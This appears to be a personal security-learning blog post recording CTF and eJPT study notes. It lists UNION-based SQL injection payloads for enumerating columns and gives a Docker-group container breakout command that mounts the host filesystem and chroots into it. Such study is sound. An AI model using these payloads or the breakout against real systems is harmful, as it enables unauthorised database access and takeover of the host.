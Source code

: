 
#+STARTUP: showall indent
#+STARTUP: hidestars
#+OPTIONS: num:nil toc:nil
#+BEGIN_EXPORT html
---
title:  SQL Injection,
categories:
  - blog
tags:
    - SQLi
    - XSS
---
#+END_EXPORT

As mentioned before, I discoverd a major blindspot on the Basic SQLi. how to perform Union Based enumeration.
Yes thanks for THM to show me how weak my game is there :)

So I spend some time on INE eJPT path, to really get into the basics again.... and yes it's quite simple if you know and now I know.

I quess this is a Enumeration methoth anyone can remember :)

~' UNION SELECT NULL--~

~' UNION SELECT NULL,NULL--~

~' UNION SELECT NULL,NULL,NULL--~


~' UNION SELECT 'a',NULL,NULL,NULL--~

~' UNION SELECT NULL,'a',NULL,NULL--~

~' UNION SELECT NULL,NULL,'a',NULL--~

~' UNION SELECT NULL,NULL,NULL,'a'--~

More info can be found here:
https://portswigger.net/web-security/sql-injection/union-attacks


I spend some time on a CFT on THM, and finally made it. Learning some pritty cool stuff on excaping a docker container.

Reference:
https://book.hacktricks.xyz/linux-unix/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation

Basically if you are in the docker group, you can do the following:

~#Search the socket~

~find / -name docker.sock 2>/dev/null~

~#It's usually in /run/docker.sock~

If found, than generate a new image, and mount the host filesystem into you image and chroot into it... thats a pretty nice.
Although not that realistic I guess, but good for CTFs

~#List images to use one~

~docker images~

~#Run the image mounting the host disk and chroot on it~

~docker run -it -v /:/host/ ubuntu:18.04 chroot /host~
